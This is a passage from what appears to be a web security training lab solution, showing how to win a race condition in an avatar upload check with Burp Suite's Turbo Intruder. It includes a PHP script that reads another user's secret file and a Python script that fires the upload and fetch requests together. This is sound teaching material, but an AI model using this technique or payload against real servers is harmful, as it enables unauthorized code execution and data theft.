 <br>
##### Note
*Due to the generous time window for this race condition, it is possible to solve this lab by manually sending two requests in quick succession using Burp Repeater. The solution described here teaches you a practical approach for exploiting similar vulnerabilities in the wild, where the window may only be a few milliseconds.*

<br>

1.  Log in and upload an image as your avatar, then go back to your account page.

2.  In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`.

3.  On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

{:start="4"}
4.  Log in and attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.

5.  If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.

6.  Right-click on the `POST /my-account/avatar` request that was used to submit the file upload and select **Extensions > Turbo Intruder > Send to turbo intruder**. The Turbo Intruder window opens.

7.  Copy and paste the following script template into Turbo Intruder's Python editor:

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
